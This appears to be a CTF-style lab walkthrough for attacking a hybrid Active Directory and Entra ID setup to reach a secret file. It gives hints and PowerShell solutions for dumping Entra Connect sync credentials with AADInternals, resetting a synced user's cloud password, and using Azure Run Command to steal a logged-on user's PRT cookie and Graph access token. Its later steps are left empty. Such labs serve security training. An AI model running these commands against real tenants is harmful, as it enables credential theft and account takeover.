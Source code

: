 creds of an SP -> azure run command -> vm that has user logged on -> steal user prt ->


# Preparations
1. RDP login to DC VM using the YOURDOMAIN\rootuser
2. RDP login to Win11 VM using the YOURDOMAIN\user1, keep this window open in the background - you're not allowed to use it from now on.

# Instructions
1. Your goal is to find the secret.txt file 
2. forget everything you knew: from this point on you DON'T know what the admin password is (i.e. what's the password of 'user1')
3. DO NOT password reset or silver ticket (seamless sso) "user1"
3. the only thing you have is the RDP session on the DC. Good luck! 

# Hints
hints base64 encoded

### First hint: where the secret.txt file isn't stored
The file isn't on a VM

## Entire attack path hint (use as last resort)
1. pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials
2. login to Azure as that user using your browser
3. azure run command on Win11 VM (the VM that has user1 logged on)
4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 
5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account


## Step 1
### Hint 1
1. Find a way to compromise a synced user in order to jump to the cloud
2. Recon for roles / permissions to see which user you want to compromise
3. it's not "user1"...

### Hint 2
Abuse the Entra Connect password reset feature using AADInternals

### Solution
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```

## Step 2
### Hint 1
Login to Azure as that user and see what you have access to

### Hint 2
You can find the virtual machine Win11 and using the Run Command extension run PowerShell script on it

### Hint 3
Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions

### Solution
<hint>
  <summary>Click me</summary>
  1. first get the running user's session by executing: "query user"

    ```powershell

    # Define the script you want to run
    $script = {
        # Your PowerShell commands here
        Write-Output "Hello, $env:USERNAME!"
        Import-Module AADInternals
        $prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already
        $prtToken
        WRITE-OUTPUT "#####################"
        $at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
        $at
    }

    # Create a session for the logged-on user
    $session = New-PSSession -ComputerName localhost -Credential (Get-Credential)

    # Run the script in the context of the logged-on user
    Invoke-Command -Session $session -ScriptBlock $script

    # Clean up the session
    Remove-PSSession -Session $session
    ```
</hint>


### Step 3 Hint
### Step 3 Solution




# change user2 password 
    the user should have the "azure vm run command" perm / role in entra
# 

### Bonus: 
Go back to the beginning, and try steal user2 using silver ticket (Seamless SSO) instead of password reset